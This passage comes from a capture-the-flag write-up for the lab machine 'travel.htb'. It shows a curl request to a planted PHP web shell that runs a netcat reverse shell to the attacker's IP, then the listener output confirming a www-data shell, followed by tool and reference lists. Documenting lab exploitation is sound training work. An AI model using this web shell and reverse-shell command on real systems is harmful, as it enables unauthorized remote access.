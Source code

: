 ### Reverse Shell 

Send the command below in my terminal after started a *netcat* listener a receive I receive the reverse shell:

```bash
curl -i -s -k -X $'POST' --data-binary 'dumb=nc 10.10.14.26 4242 -e /bin/bash' 'http://blog.travel.htb/wp-content/themes/twentytwenty/logs/dumb.php'
```

```bash
nc -nlvp 4242
Listening on 0.0.0.0 4242
Connection received on 10.10.10.189 56296
cat /etc/hostname
blog
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```



## Priv Escalation 



## Tools used in this post

- Burp Suite

- Hascat

- https://mybrowseraddon.com/modify-header-value.html

  

## Terminal Customization 

- https://eugeny.github.io/terminus/

- https://ohmyz.sh/ (afowler theme)

- https://github.com/samoshkin/tmux-config

  

## Reference Links

- http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html
- https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/
- https://portswigger.net/web-security/sql-injection/cheat-sheet

- https://dev.mysql.com/doc/refman/8.0/en/information-schema.html

- https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

- https://sec-consult.com/en/blog/2019/04/windows-privilege-escalation-an-approach-for-penetration-testers/

  